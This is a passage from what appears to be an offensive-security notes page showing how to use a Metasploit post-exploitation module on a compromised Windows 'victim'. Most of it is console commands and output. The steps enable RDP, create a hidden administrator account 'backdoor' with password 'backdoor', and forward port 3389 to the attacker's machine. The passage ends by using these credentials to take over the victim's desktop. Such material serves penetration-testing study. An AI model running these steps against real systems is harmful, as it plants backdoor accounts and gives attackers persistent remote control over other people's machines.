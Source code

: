 > require elevated shell

You could use the module `post/windows/manage/enable_rdp` to automatically enable RDP on the victim computer, additionally this module allow you to use the following features:
- forward victim port 3389 on the attacker machine
- create a new user who belongs to groups `Remote Desktop User Groups` and `NT AUTHORITY\SYSTEM`

### Example

```bash
msf6 > use post/windows/manage/enable_rdp

msf6 post(windows/manage/enable_rdp) > show options

Module options (post/windows/manage/enable_rdp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ENABLE    true             no        Enable the RDP Service and Firewall Exception.
   FORWARD   true             no        Forward remote port 3389 to local Port.
   LPORT     3389             no        Local port to forward remote connection.
   PASSWORD  backdoor         no        Password for the user created.
   SESSION   70               yes       The session to run this module on
   USERNAME  backdoor         no        The username of the user to create.


View the full module info with the info, or info -d command.

msf6 post(windows/manage/enable_rdp) > exploit

[*] Enabling Remote Desktop
[*]     RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[+]     RDP Service Started
[*]     Opening port in local firewall if necessary
[*] Setting user account for logon
[*]     Adding User: backdoor with Password: backdoor
[*]     Adding User: backdoor to local group 'Remote Desktop Users'
[*]     Hiding user from Windows Login screen
[*]     Adding User: backdoor to local group 'Administrators'
[*] You can now login with the created user
[*] Starting the port forwarding at local port 3389
[*] Forward TCP relay created: (local) 0.0.0.0:3389 -> (remote) 127.0.0.1:3389
[*] For cleanup execute Meterpreter resource file: /home/talion/.msf4/loot/20230127183750_default_192.168.0.12_host.windows.cle_596732.txt
[*] Post module execution completed

```

In this example I created a new `backdoor` user with password `backdoor`, he belong to `Remote Desktop User Group` and `NT AUTHORITY\SYSTEM`. And I forwarded the port 3389 to my attacker machine, now I can use the creds `backdoor:backdoor` to connect to `127.0.0.1:3389` using a RDP client like `xfreerdp` or `remmina`.
But the victim will be prompted that he will be disconnected after 30sec because somebody else try to connect

Then I have access to the target desktop !
